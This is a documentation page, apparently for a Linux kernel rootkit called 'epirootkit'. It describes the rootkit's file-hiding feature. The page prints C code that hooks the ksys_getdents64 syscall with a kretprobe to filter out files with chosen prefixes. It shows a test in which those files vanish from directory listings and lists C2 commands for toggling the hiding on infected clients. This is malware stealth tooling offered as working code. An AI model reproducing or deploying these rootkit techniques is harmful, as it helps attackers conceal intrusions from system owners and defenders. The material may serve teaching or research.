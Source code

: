 ```yaml
---
title: "File Hiding"
description: "Hide files and directories from directory listings using syscall interception"
icon: "folder_off"
date: "2025-05-30T00:00:00+01:00"
lastmod: "2025-05-30T00:00:00+01:00"
draft: false
toc: true
weight: 515
---
```




## Implementation

```c
static const char * const hide_prefixes[] = { 
    "epirootkit",
    "jules_est_bo_", 
};

file_hiding_state.getdents_probe = (struct kretprobe) {
    .kp.symbol_name = "ksys_getdents64",
    .handler = getdents64_ret_handler,
    .entry_handler = getdents64_entry_handler,
    .data_size = sizeof(struct getdents_context),
    .maxactive = 20
};
```

Hooks `ksys_getdents64` syscall and filters directory entries matching hidden prefixes.

## Testing

```bash
# Create test files
touch /tmp/epirootkit_test.txt /tmp/normal_file.txt

# Without file hiding
ls /tmp/
# Output: epirootkit_test.txt  normal_file.txt

# With file hiding enabled
ls /tmp/
# Output: normal_file.txt
```

## Control

### WebUI
Toggle via **[Configuration Panel](../../04-web-ui/features/panels/configuration-panel.md)**

### C2 Commands
```bash
enable-file-hiding Client-1    # Enable hiding
disable-file-hiding Client-1   # Disable hiding
status Client-1                # Check state
```

Files remain accessible by full path - only directory listings are filtered. 